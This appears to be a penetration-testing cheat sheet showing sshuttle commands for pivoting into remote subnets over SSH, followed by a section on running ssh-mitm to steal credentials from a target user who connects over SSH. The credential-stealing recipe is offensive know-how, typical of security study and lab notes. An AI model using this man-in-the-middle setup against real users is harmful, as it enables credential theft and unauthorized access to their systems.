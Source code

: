 ## SSH Proxy Server

### Sshuttle

**[sshuttle](https://github.com/sshuttle/sshuttle)** is transparent proxy server that works as a poor man's VPN. Forwards over ssh.

```sh
sshuttle -r username@<remote-ip> <remote-ip>/24

# Automatically determine subnet
sshuttle -r username@<remote-ip> -N

# Using private key
sshuttle -r username@<remote-ip> --ssh-cmd "ssh -i private_key" <remote-ip>/24

# Exclude the specific ip (-x)
sshuttle -r username@<remote-ip> <remote-ip>/24 -x <remote-ip>
```

Then you can access to other networks.

- **Troubleshooting**

    If you get the error "Failed to flush caches: Unit dbus-org.freedesktop.resolve1.service not found...", you need to flush DNS cache.


    ```sh
    sudo systemctl enable systemd-resolved.service
    sudo resolvectl flush-caches
    ```

    Run sshuttle again.

<br />

## SSH-MITM for Stealing Credentials

If the target system user try to connect arbitrary host using SSH, we might be able to steal credentials by listening via the SSH man-in-the-middle server.  
Run the following command in local machine.

```bash
# If not have the ssh-mitm, install first.
pip3 install ssh-mitm --upgrade

# --enable-trivial-auth: The "trivial authentication" phishing attack
# --remote-host: Specify the target ip/domain
# --listen-port: Specify the ip address to listen in local machine
ssh-mitm server --enable-trivial-auth --remote-host example.com --listen-port 2222
```